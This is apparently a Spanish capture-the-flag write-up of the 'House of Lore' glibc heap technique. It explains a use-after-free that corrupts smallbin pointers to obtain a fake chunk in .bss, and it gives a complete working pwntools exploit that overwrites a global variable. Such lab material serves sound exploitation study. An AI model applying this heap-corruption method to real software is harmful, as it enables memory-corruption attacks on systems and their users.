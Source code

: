 # House Of Lore

```
   Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'../.glibc/glibc_2.25'
    Stripped:   No
    Debuginfo:  Yes
```

Si existe la posibilidad de obtener una shell en este reto la desconozco. El objetivo de este reto fue sobreescribir la variable global `target`.

En el programa existe una vulnerabilidad UAF que nos permite cambiar los punteros fd y bk de un chunk libre. Usaremos la tecnica que da nombre al reto.

Pasos:
1. Crear un chunk falso en `user` con size=A->size, FD=A y BK=B.
2. Reservar dos chunks: A y B. El primero sera el chunk que ira a unsortedbin, el segundo sera un segundo chunk falso para pasar las verificaciones de `malloc`.
3. Hacemos B->fd=fake_chunk.
4. Liberamos A y con la vulnerabilidad UAF que existe hacemos A->bk=fake_chunk.
5. Hacemos `malloc(0x400)` para que A sea insertado en una smallbin.
6. Hacemos `malloc(A->size)` dos veces, el segundo chunk devuelto se encuentra en `user`.
7. Sobreescribimos `target`.

## Exploit
``` py
from pwn import *
r = process("./house_of_lore")
libc = ELF("../.glibc/glibc_2.25/libc.so.6")
index = 0

def malloc(size):
    global index
    r.send(b"1")
    r.sendafter(b"size: ", str(size).encode())
    r.recvuntil(b"> ")
    index += 1
    return index - 1

def free(index):
    r.send(b"2")
    r.sendafter(b"index: ",str(index).encode())
    r.recvuntil(b"> ")

def edit(index, data):
    r.send(b"3")
    r.sendafter(b"index: ", str(index).encode())
    r.sendafter(b"data: ", data)
    r.recvuntil(b"> ")

r.recvuntil(b"@ ")
libc.address =  int(r.recvline().strip(),16) -  0x68d70
print(hex(libc.address))

r.recvuntil(b"@ ")
heap = int(r.recvline().strip(),16)
print(hex(heap))

# fake_chunk in .bss
# fake_chunk->fd = B
# fake_chunk->bk = A
r.sendafter(b"username:",p64(0) + p64(0xa0) + p64(heap + 0xa0) + p64(heap))

# Allocate victim chunk (0x98 gets aligned to 0xa0 with 0x90 bytes for data, 8 bytes overflow!)
A = malloc(0x98)

# Guard chunk to avoid that A merges with top chunk
B = malloc(0x88)

# Bypass "smallbin double linked list corrupted"
edit(B, p64(0x602010))

# Put A in the unsortedbin
free(A)

# A->bk = fake_chunk
edit(A, p64(0) + p64(0x602010))

# Forcing A to be inserted in a smallbin
C = malloc(0x400)

D = malloc(0x98)

# Alloc fake_chunk
E = malloc(0x98)

# Overwrite target
edit(E, b"A" * 0x20 + b"_s1s1fo_")

r.sendline(b"4")

r.interactive()
```

